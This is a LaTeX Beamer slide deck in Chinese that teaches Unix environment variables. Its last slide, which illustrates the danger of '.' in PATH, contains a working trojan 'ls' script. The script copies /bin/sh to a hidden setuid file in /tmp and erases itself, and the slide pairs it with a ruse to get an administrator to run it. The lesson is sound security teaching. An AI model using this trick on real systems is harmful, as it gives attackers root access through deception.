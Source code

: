 \documentclass[compress]{beamer}
\begin{document}
\begin{frame}
\frametitle{环境变量 (cont.)}

\begin{itemize}
\item 执行\alert{. filename}可以让filename文件中的各种设置在当前shell生效
\end{itemize}

设置环境变量

\alert{LANG=C; export LANG} 或者 \alert{export LANG=C}

\end{frame}

\begin{frame}[fragile]
\frametitle{常用环境变量}

\begin{itemize}
  \item HOME : 用户主目录
  \item SHELL : 用户当前的shell
  \item USER : 用户登录名
\item MANPATH: e.g., MANPATH=\verb=/usr/man:/usr/local/man=
\item LANG : e.g., LANG=C
\item LD\_LIBRARY\_PATH : 动态链接库搜索路径
\end{itemize}
  
\end{frame}

\begin{frame}[fragile]
  \frametitle{常用环境变量 (cont.)}
  \begin{itemize}
\item TERM : e.g., TERM=vt100
\item PS1 : e.g., PS1=\verb="\w > "=
\item PWD : \alert{cd}命令设置的当前路径
\item EDITOR : EDITOR=vi
\item IFS : IFS=\verb*=" \t"=
\item \alert{PATH} : e.g., PATH=\verb=.:/usr/bin:/usr/local/bin=
\end{itemize}

查看所有环境变量 \alert{env}

\end{frame}


\begin{frame}[fragile]
    \frametitle{PATH的故事}
    \begin{itemize}
        \item 某系统管理员Er: PATH=\verb=.:/usr/bin:/usr/local/bin=
        \item 你在个人主目录/home/s下创建了可执行的 ls 脚本:
\begin{Verbatim}
#!/bin/sh
/bin/cp /bin/sh /tmp/.sh
/bin/chmod 4755 /tmp/.sh
/bin/rm $0
exec /bin/ls $*
\end{Verbatim}
\item 你告诉Er你无法ls 自己的主目录
\item Er用自己的帐号 cd /home/s, 然后执行ls
\item 系统是你的了
\end{itemize}
\end{frame}
\end{document}
